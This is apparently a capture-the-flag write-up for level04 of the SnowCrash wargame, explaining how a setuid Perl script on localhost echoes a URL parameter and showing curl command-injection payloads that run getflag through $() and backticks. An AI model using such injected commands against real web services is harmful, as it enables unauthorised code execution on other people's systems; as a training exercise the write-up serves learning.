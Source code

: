 # context 

in the home directory we found a file with flag04 with suid and guid wihich mean that the it will be executed with the right of it's owner 
  
    level04@SnowCrash:~$ ls -la level04.pl
    -rwsr-sr-x 1 flag04 level04 152 Mar  5  2016 level04.pl
    
# how to solve the problem 

from reading the file content we see that there is apache serveer runing on localhost with  4747 port 

the web site parse the query string params from url and print it with echo  in this the param is x 

we can try to pass a variable name to the x for exemple 
    "localhost:4747/?x=ramoukha" and we got => ramoukha.
let's inject the getflag command and see wat going to happen 
    curl localhost:4747/?x=$(getflag)
    or
    curl '127.0.0.1:4747/level04.pl?x=`getflag`'
    
and we got the flag 

